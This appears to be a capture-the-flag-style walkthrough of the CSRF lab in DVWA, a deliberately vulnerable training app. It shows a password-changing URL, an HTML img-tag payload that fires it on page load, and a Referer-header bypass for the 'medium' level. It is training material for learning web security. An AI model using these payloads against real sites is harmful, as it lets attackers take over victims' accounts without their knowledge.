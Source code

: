 LOW

Notice how changing the password required no verification process as it's changed.  Now, look at the URL:

`http://dvwa.local/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpassword&Change=Change#`

If we can get the "admin" user to visit the malicious URL, the password will be changed to whatever we want. We don't need to actually type in anything to the vulnerable form.

Save the following as an html file, open in browser, and now the DVWA creds have changed from `admin:password` to `admin:newpassword`
```html
<img src="http://dvwa.local/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpassword&Change=Change#">/img>
```

MEDIUM

Same as low, except we need to add a header in the request:

Referer:  `http://dvwa.local/vulnerabilities/csrf/`
